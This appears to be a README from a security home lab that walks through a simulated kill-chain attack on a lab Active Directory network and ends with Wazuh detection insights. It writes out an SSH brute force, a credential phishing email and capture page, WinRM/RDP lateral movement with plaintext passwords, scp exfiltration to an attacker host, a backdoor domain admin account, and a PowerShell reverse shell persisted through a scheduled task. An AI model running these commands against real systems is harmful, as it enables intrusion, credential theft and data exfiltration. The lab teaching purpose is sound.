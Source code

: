 # Attack Simulation

This guide documents a complete cybersecurity attack simulation performed within the lab environment, demonstrating various phases of the cyber kill chain.

## Table of Contents
- [Attack Simulation](#attack-simulation)
  - [Table of Contents](#table-of-contents)
  - [Attack Overview](#attack-overview)
  - [Attack Infrastructure](#attack-infrastructure)
  - [Reconnaissance Phase](#reconnaissance-phase)
    - [Network Scanning](#network-scanning)
  - [Initial Access Phase](#initial-access-phase)
    - [1. SSH Brute Force Attack](#1-ssh-brute-force-attack)
    - [2. Phishing Attack](#2-phishing-attack)
  - [Lateral Movement Phase](#lateral-movement-phase)
    - [1. Access to Linux Client](#1-access-to-linux-client)
    - [2. Windows Client Access via WinRM](#2-windows-client-access-via-winrm)
    - [3. Domain Controller Access via RDP](#3-domain-controller-access-via-rdp)
  - [Data Exfiltration Phase](#data-exfiltration-phase)
  - [Persistence Phase](#persistence-phase)
    - [1. Domain Admin Account Creation](#1-domain-admin-account-creation)
    - [2. Scheduled Task with Reverse Shell](#2-scheduled-task-with-reverse-shell)
  - [Defense Insights](#defense-insights)

## Attack Overview

The attack simulation follows the standard cyber kill chain methodology:

![Attack Kill Chain](images/attack-kill-chain.png)

Scenario: An attacker targets the project-x organization with the goal of gaining initial access, elevating privileges, moving laterally through the network, and exfiltrating sensitive data.

## Attack Infrastructure

The attack is launched from:
- **System**: project-x-attacker (Kali Linux)
- **Tools Used**: 
  - nmap (Network scanning)
  - Hydra (Password brute-forcing)
  - Evil-WinRM (Windows Remote Management exploitation)
  - NetExec (Authentication attacks)
  - Web server (Phishing)

## Reconnaissance Phase

The initial reconnaissance phase involves discovering hosts and services on the network.

### Network Scanning

```bash
nmap -p1-1000 -Pn -sV 10.0.0.8/24
```

Results revealed:
- Email server (10.0.0.8) with SSH (port 22) and SMTP (port 25)
- Linux client (10.0.0.101) with SSH (port 22)
- Windows client (10.0.0.100) with WinRM (ports 5985, 5986)
- Domain controller (10.0.0.5) with multiple services including RDP (port 3389)

![Nmap Scan Results](images/nmap-results.png)

## Initial Access Phase

Initial access was obtained through two vectors:

### 1. SSH Brute Force Attack

The email server was found to have SSH enabled with a weak root password:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.8
```

![Hydra Brute Force](images/hydra-brute-force.png)

The attack successfully discovered the password: `november`

### 2. Phishing Attack

A phishing site was deployed on the attack machine:

```bash
sudo touch /var/www/html/creds.log
sudo chmod 666 /var/www/html/creds.log
sudo service apache2 start
```

A phishing email was crafted on the compromised email server:

```bash
echo "<html><body><p>Dear Jane,
We noticed an unusual login attempt on your account, and for your security, we have temporarily locked access. To restore access, please verify your account credentials within the next 24 hours.
To verify your credentials, please click the link below:</p>
<a href='http://10.0.0.50'>Verify My Account</a>
<p>For assistance, please contact our support team at support@company.com.
Thank you for your prompt attention to this matter.
Best regards,
ProjectX Security Team</p>
</body></html>" > email.txt

cat email.txt | mail -s "Important, Verify Password" janed@linux-client
```

![Phishing Email](images/phishing-email.png)

When the user submitted credentials, they were captured on the attacker's machine:

```bash
cat /var/www/html/creds.log
```

## Lateral Movement Phase

Using the compromised credentials, lateral movement was performed between systems.

### 1. Access to Linux Client

SSH access to the Linux client using the captured credentials:

```bash
ssh janed@10.0.0.101
```

### 2. Windows Client Access via WinRM

NetExec was used to test credentials against the Windows client:

```bash
nxc winrm 10.0.0.100 -u Administrator -p '@Deeboodah1!'
```

After confirming valid credentials, Evil-WinRM was used to gain shell access:

```bash
evil-winrm -i 10.0.0.100 -u Administrator -p '@Deeboodah1!'
```

![Evil-WinRM Access](images/evil-winrm.png)

### 3. Domain Controller Access via RDP

RDP access to the domain controller:

```bash
xfreerdp /v:10.0.0.5 /u:Administrator /p:@Deeboodah1! /d:corp.project-x-dc.com
```

## Data Exfiltration Phase

Sensitive data was identified and exfiltrated from the domain controller:

```powershell
# On Domain Controller
scp ".\secrets.txt" attacker@10.0.0.50:/home/attacker/my_sensitive_file.txt
```

## Persistence Phase

Two persistence mechanisms were implemented:

### 1. Domain Admin Account Creation

```powershell
net user project-x-user @mysecurepassword1! /add
net localgroup Administrators project-x-user /add
net group "Domain Admins" project-x-user /add
```

### 2. Scheduled Task with Reverse Shell

A reverse shell script was created on the attack machine and transferred to the domain controller:

```bash
# On attacker machine
cat > reverse.ps1 << 'EOF'
$ip = "10.0.0.50"
$port = 4444
$client = New-Object System.Net.Sockets.TCPClient($ip, $port)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)
$writer.AutoFlush = $true
$writer.WriteLine("Connected to reverse shell!")
while ($true) {
try {
    $command = $reader.ReadLine()
    if ($command -eq 'exit') {
        break
    }
    $output = Invoke-Expression $command 2>&1
    $writer.WriteLine($output)
} catch {
    $writer.WriteLine("Error: $_")
}
}
$client.Close()
EOF

python -m http.server
```

On the domain controller:
```powershell
# Download and schedule the reverse shell
Copy-Item -Path reverse.ps1 -Destination "C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1"

schtasks /create /tn "PersistenceTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1" /sc daily /st 12:00
```

Testing the reverse shell:
```bash
# On attacker machine
nc -lvnp 4444
```

![Reverse Shell Access](images/reverse-shell.png)

## Defense Insights

Throughout the attack, Wazuh detected various suspicious activities:

- Failed SSH login attempts
- WinRM authentication events
- File access to sensitive documents
- User creation events

![Wazuh Alerts](images/wazuh-alerts.png)

These alerts demonstrate how proper security monitoring can detect attack activities at various stages of the kill chain, providing defenders with opportunities for intervention.